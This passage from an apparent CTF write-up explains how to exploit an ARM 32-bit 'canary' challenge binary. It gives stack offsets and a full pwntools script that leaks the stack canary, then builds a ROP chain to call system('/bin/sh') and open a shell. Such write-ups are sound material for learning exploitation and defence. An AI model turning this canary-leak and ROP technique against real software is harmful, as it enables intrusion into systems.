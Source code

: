 ```
        000104b8 30 40 2d e9     stmdb      sp!,{ r4 r5 lr }
```

Since the canary is `4` bytes, that means that the end of the canary will put us at `0x10`. In `32` bit arm, the return address is stored at the base of the stack (we can just do a quick google search to find this out). Since addresses in this architecture are just 4 bytes, that means that return address ranges from offsets `0-4`. So the offset between the stack canary and the return address is just `0x10 - 0x4 = 0xc` bytes.

So our exploit will contain the following:

```
*    40 bytes of filler data
*    4 bytes stack canary
*    12 bytes of filler data to return address
*    4 byte rop gadget pop {r0, r4, pc}
*    4 byte "/bin/sh" argument
*    4 byte filler
*    4 byte address of system
```

## Exploit

Putting it all together we have the following exploit:

```
# This exploit is based off of: https://ctftime.org/writeup/12568

from pwn import *

target = process(['qemu-arm', 'canary'])

system = p32(0x16d90)
binsh = p32(0x71eb0)

# pop {r0, r4, pc}
gadget = p32(0x26b7c)

def clearInput():
    print target.recvuntil('>')

def leakCanary():
    target.send("0"*41)
    print target.recvuntil('0'*41)
    leak = target.recv(3)
    canary = u32("\x00" + leak)
    print "Stack canary: " + hex(canary)
    return canary
clearInput()

canary = leakCanary()

payload = ""
payload += "0"*40
payload += p32(canary)
payload += "1"*12
payload += gadget
payload += binsh
payload += "2"*4
payload += system

target.sendline(payload)
target.sendline("")

target.interactive()
```